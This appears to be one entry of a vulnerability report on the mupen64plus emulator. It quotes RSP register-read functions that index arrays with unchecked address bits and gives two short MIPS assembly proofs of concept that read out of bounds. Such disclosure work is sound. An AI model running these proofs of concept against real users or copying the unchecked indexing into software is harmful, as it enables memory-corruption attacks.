


### BUG8: rsp_reg overflow

#### Vulnerability Analysis

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/rsp/rsp_core.c#L258
void read_rsp_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct rsp_core* sp = (struct rsp_core*)opaque;
    uint32_t reg = rsp_reg(address);

    *value = sp->regs[reg];

    if (reg == SP_SEMAPHORE_REG)
    {
        sp->regs[SP_SEMAPHORE_REG] = 1;
    }
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/rsp/rsp_core.c#L302
void read_rsp_regs2(void* opaque, uint32_t address, uint32_t* value)
{
    struct rsp_core* sp = (struct rsp_core*)opaque;
    uint32_t reg = rsp_reg2(address);

    *value = sp->regs2[reg];

    if (reg == SP_PC_REG)
        *value &= 0xffc;

}

// https://github.com/mupen64plus/mupen64plus-core/blob/master/src/device/rcp/rsp/rsp_core.h#L112
static osal_inline uint32_t rsp_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}

// https://github.com/mupen64plus/mupen64plus-core/blob/master/src/device/rcp/rsp/rsp_core.h#L117
static osal_inline uint32_t rsp_reg2(uint32_t address)
{
    return (address & 0xffff) >> 2;
}
```

#### Reproduction

- poc.asm

rsp->regs

```
0000000000000000 <_start>:
   0:   3c048404        lui     a0,0x8404
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop

```




rsp->regs2

```
0000000000000000 <_start>:
   0:   3c048408        lui     a0,0x8408
   4:   348403fc        ori     a0,a0,0x3fc
   8:   8c850000        lw      a1,0(a0)
   c:   00000000        nop
```

